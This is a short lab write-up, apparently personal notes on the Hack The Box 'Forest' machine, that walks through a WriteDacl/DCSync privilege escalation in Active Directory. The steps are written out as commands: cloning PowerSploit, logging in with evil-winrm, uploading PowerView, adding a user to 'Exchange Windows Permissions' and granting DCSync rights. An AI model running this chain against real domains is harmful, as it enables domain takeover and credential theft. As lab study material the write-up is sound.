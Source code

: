
<h3>PowerView</h3>


I found an interesting site that explains [abusing active directory permissions with powerview](http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/)

Another covers [escalating privileges with acls in active directory ](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)




<hr width="300" size="10">



<h3>WriteDacls DCSync attack</h3>





Get a working PowerView
```
git clone https://github.com/PowerShellMafia/PowerSploit/ -b dev
```

Access target via evil-winrm
```
evil-winrm -i 10.10.10.161 -u sh1n0bi -p password123
```

Upload PowerView.ps1 in evil-winrm

```
upload /root/HTB/active/forest/PowerView.ps1 .\PowerView.ps1
```


<hr width="300" size="10">



1. a command to Add sh1n0bi to the "Exchange Windows Permissions" group
```
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members sh1n0bi;$Username = 'htb\sh1n0bi';$Password = 'password123'
```

2. set the variable $pass for use in next command
```
$pass = ConvertTo-SecureString -AsPlainText $Password -Force
```

3. set the variable $Cred for use in final command
```
$Cred = New-Object System.Management.Automation.PSCredential -ArgumentList $Username,$pass
```

4. Uses the PowerView function Add-DomainObjectAcl to award sh1n0bi DCSync rights.
```
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'sh1n0bi' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

